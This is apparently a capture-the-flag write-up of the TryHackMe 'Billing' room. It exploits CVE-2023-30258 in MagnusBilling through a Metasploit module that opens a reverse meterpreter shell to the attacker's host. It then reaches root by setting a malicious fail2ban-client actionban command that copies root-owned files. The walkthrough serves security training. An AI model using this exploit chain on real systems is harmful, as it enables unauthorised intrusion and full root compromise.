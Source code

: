 ```yaml
---
title: "TryHackMe: Billing"
date: 2025-03-20 20:03:00 +0200
categories: [TryHackMe]
description: Exploit a well-known CVE to gain initial access, then elevate privileges by leveraging fail2ban.
tags: [web, rce, fail2ban, magnusbilling, metasploit]
media_subpath: /assets/img_dir/Billing_THM
image: 
  path: billing.webp
author: cyb3rgh0u1
---
```


## Description

In the [**Billing TryHackMe**](https://tryhackme.com/room/billing) challenge, we'll exploit **CVE-2023-30258** to gain initial access to the **MagnusBilling** platform via unauthenticated remote code execution. Then, escalate privileges by abusing a misconfigured **fail2ban service** to achieve root access.


[![Billing](billing_1.png)](https://tryhackme.com/room/billing){: .center }


## Enumeration

Start with an nmap scan to identify open ports and services:

```shell
❯ nmap 10.10.254.59 -sC -sV

Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-20 13:59 UTC
Nmap scan report for 10.10.254.59
Host is up (0.37s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| http-title:             MagnusBilling        
|_Requested resource was http://10.10.254.59/mbilling/
| http-robots.txt: 1 disallowed entry 
|_/mbilling/
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Nmap done: 1 IP address (1 host up) scanned in 42.36 seconds
```

Open Ports Identified:

    22/tcp: SSH (OpenSSH 8.4p1)
    80/tcp: HTTP (Apache 2.4.56)
    3306/tcp: MySQL (MariaDB 10.3.23 or earlier)

Let's start by focusing on HTTP website, since the other three ports don’t seem to offer anything noteworthy at the moment. If you look closely to the scanning output, there’s an application called MagnusBilling running. A quick Google search of that application reveals a known vulnerability, [CVE-2023-30258](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/), and it turns out there’s a Metasploit exploit available for it.


[![Google Search](billing_2.png)](https://tryhackme.com/room/billing){: .center }


## Exploitation

Launch Metasploit and configure the exploit:

```shell
msf6 > search magnusbilling_unauth_rce_cve_2023_30258

Matching Modules
================
   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.

msf6 > use 0
[*] Using configured payload php/meterpreter/reverse_tcp

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS 10.10.254.59
RHOSTS => 10.10.254.59

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST 10.13.82.190
LHOST => 10.13.82.190

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 10.13.82.190:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.254.59:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.83 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 10.10.254.59
[+] Deleted CCfDLivv.php
[*] Meterpreter session 1 opened (10.13.82.190:4444 -> 10.10.254.59:42936) at 2025-03-20 19:26:50 +0000
```

Drop into a shell and upgrade it to a full TTY:


```shell
meterpreter > shell
Process 1545 created.
Channel 0 created.

python3 -c 'import pty; pty.spawn("/bin/bash")'
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ 
```
>Note: The Python PTY module [docs](https://docs.python.org/3/library/pty.html) upgrades the shell to a fully interactive TTY. Learn more about TTYs [here](https://0xffsec.com/handbook/shells/full-tty/).

Now, locate the user.txt flag:

```shell
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ cd /home
asterisk@Billing:/home$ ls
magnus
asterisk@Billing:/home$ cd magnus
asterisk@Billing:/home/magnus$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
asterisk@Billing:/home/magnus$ cat user.txt
THM{USER_FLAG_HERE}
````

## Privilege Escalation

Check for sudo privileges:

```shell
asterisk@Billing:/home/magnus$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty
User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

The user asterisk can run `/usr/bin/fail2ban-client` as root without a password. Verify that fail2ban is running:

```shell
asterisk@Billing:/home/magnus$ systemctl status fail2ban
● fail2ban.service - Fail2Ban Service
     Loaded: loaded (/lib/systemd/system/fail2ban.service; enabled; vendor preset: enabled)
     Active: active (running) since Thu 2025-03-20 10:20:01 HDT; 36min ago
       Docs: man:fail2ban(1)
    Process: 526 ExecStartPre=/bin/mkdir -p /run/fail2ban (code=exited, status=0/SUCCESS)
   Main PID: 542 (fail2ban-server)
      Tasks: 19 (limit: 2268)
     Memory: 27.4M
        CPU: 6.366s
     CGroup: /system.slice/fail2ban.service
             └─542 /usr/bin/python3 /usr/bin/fail2ban-server -xf start
```

`fail2ban-client` allows us to manipulate jail actions. We can abuse the actionban parameter to execute commands as root. Set a malicious actionban command to copy root.txt to a readable location:

```shell
asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'cat /root/root.txt > /tmp/root.txt && chmod 777 /tmp/root.txt'"
```

Trigger the action by banning an IP (e.g., localhost):


```shell
asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client set sshd banip 127.0.0.1
1
```

>Note: If the file doesn’t appear, ensure fail2ban is running (sudo /usr/bin/fail2ban-client restart) and retry the above 2 steps again.

Read the flag:

```shell
asterisk@Billing:/home/magnus$ cat /tmp/root.txt
THM{ROOT_FLAG_HERE}
```

## Conclusion

By exploiting CVE-2023-30258, we gained initial access as the asterisk user via Metasploit. Then, leveraging a misconfigured fail2ban service with sudo privileges, we escalated to root and captured both flags. This challenge highlights the dangers of unpatched software and overly permissive configurations.

